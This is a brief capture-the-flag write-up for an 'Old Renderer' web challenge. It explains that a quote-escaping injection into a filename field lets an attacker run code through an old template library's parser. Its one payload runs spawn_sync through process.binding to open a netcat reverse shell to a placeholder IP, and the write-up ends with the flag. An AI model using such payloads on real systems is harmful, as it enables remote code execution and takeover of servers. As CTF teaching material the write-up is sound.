 WU Old Renderer
Description
An old website using an old library developed by an old developer, what could go wrong ?

Author : Worty

Solve
As we control the template, we can put some breakpoint inside the library, and we can see that the parser.js variable can be injected by escaping the quote after the name of the file :

rename_value=");x=Object;w=a=x.constructor.call``;w.type="pipe";w.readable=1;w.writable=1;a.file="/bin/sh";a.args=["/bin/sh","-c","nc <YOUR_IP> 4444 -e /bin/sh"];a.stdio=[w,w];ff=Function`process.binding\x28\x22spawn_sync\x22\x29.spawn\x28a\x29.output`;ff.call``;//


Flag
MCTF{rc3_1s_4lw4ys_th3r3_wh3n_y0u_c0ntr0l_th3_t3mpl4t3_!!}
